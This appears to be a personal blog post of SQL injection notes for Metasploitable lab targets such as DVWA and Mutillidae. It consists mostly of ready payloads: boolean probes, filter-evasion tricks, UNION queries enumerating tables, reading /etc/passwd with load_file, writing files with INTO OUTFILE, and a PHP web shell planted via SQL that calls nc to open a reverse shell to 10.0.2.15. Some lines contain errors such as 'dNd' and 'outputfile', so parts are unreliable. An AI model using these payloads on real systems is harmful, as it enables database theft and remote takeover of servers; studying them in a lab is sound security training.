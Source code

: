 +++
categories = ["Metasploitable", "SQL"]
date = "2021-02-15"
title = "SQL Get Injection"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++


Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response. This attack is often used when the web application is configured to show generic error messages, but has not mitigated the code that is vulnerable to SQL injection.

Blind SQL injection is nearly identical to normal SQL Injection, the only difference being the way the data is retrieved from the database. When the database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions. This makes exploiting the SQL Injection vulnerability more difficult, but not impossible.


### Tips

* Examples of TRUE statements to discover SQLi
```
aNd 1=1
aNd 21=21
orDeR bY 1
```
* Examples of FALSE statements 
```
dNd 0=1
anD 9=2
ordEr bY 1000000000000
```

* Characters to replace spaces
```
+ 
/**/
%20

> Previous examples:
orDer+bY+1
orDer/**/bY/**/1
orDer%20bY%201

```

* Comment marks for ending requests
```
/*
//
#
%23
``` 

* PD: Sometimes you'll need to add `;` before commenting, examples:
```
anD 1=1//
anD 1=1;//
``` 

#### Medium security

Sometimes the web may  be filtering the URL looking up for special characters. In that case, we can first try to remove the `'` at the error window. Also if we have to enter a literal like `where table = 'that_table'`, we can forget about the quotes and convert it to hex. It can be done with Burp Suite, and it would look something like `where table = 0x345264`.

#### One table at a time

From the following hide request, sometimes we can retrieve only the first table name and not all of them.

`-1'+uNioN/**/seLect/**/table_name,2+fRom+information_schema%23`

Then we have to add the clause `limit 0,1`, where the first number is the table to show and the second the number of table that are going to appear. So we would do several requests like this:

```
-1'+uNioN/**/seLect/**/table_name,2+fRom+information_schema+limit+0,1%23

-1'+uNioN/**/seLect/**/table_name,2+fRom+information_schema+limit+1,1%23

-1'+uNioN/**/seLect/**/table_name,2+fRom+information_schema+limit+2,1%23
```
The `-1` is so the main request doesn't output anything because is wrong.

#### Read and Write Files 

This example is done on a database that has 5 columns. 

* Read
```
admin' union select null, load_file('/etc/passwd'),null,null,null%23
```

* Write 
  
If we try to write on folders like /var/www or so it is possible that we do not have permission.

``` 
admin' union select null,'This is what is going to be written',null,null,null into outputfile '/tmp/example.txt'%23

```

#### Reverse Shell

There have to be a LFI vulnerability in the server we are attacking. This works on a low security server with two columns.

```
-1' union select '<?passthru("nc -w /bin/sh 10.0.2.15 8888");?>',null into outfile '/tmp/reverse_shell.php'%23
```

We then listen in our terminal `nc -vv -l -p 8888`. And go to the LFI vulnerability and locate our file `/?page=/../../../../../tmp/reverse_shell.php`.

This can be done in Mutillidae A6 (LFI) or DVWA File injection.